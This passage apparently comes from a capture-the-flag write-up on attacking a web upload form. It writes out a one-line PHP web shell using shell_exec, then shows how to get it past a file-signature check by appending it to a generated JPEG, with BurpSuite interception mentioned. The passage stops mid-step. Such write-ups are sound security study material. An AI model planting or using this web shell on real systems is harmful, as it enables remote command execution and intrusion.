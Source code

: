 **NOTE:** If the web form is preventing spaces, use BurpSuite to send the request:

![burp1](./magic/burp1.png)

Try uploading a PHP web shell:

```bash
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > bubba.php
```

This results in the following error:

![web6](./magic/web6.png)

Maybe the target is checking for file signature magic? Try a bypass:

- https://en.wikipedia.org/wiki/List_of_file_signatures

```bash
sudo apt install imagemagick
convert -size 32x32 xc:white bubba.jpg
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' >> bubba.jpg
```

Uploading this file works but code execution is not possible unless the PHP extension is used... Try intercepting the upload in BurpSuite:
